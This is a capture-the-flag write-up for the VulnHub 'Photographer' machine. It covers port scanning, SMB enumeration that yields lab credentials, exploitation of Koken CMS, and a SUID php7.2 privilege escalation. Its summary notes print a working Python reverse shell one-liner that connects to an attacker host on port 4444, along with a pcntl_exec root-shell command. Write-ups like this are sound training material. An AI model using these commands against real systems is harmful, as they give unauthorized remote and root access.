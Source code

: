 ```yaml
---
title: Photographer
categories: [VulnHub]
tags: [CMS, PrivEsc, RFI, SUIDs, SMB, koken_CMS, php]
image:
  path: https://www.infosecarticles.com/content/images/2020/09/port80-1.png
  alt: Photographer Machine 📷
---
```


## **Description ⤵️**


##### 💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

***This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.***


### **Let’s find the IP Address first >>**

```bash
IP : 10.0.2.25
```
{: .nolineno}

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory traversal through `feroxbuster` Tool →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

Then I checked port 8000, I found this `koken CMS` page.

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

I searched through public exploit from searchsploit Tool and found this exploit related to `koken CMS`. 

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part as well →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```
{: .nolineno}

I guess I got in successfully !

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Lets do some further reconnaissance from internet →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

Got the results my RFI is working fine →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}

<hr>
<br>

# **Summery Notes →**

> 💡
>Koken 0.22.24
>
>daisa@photographer.com
>
>agi@photographer.com
>
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
> 
> `./usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }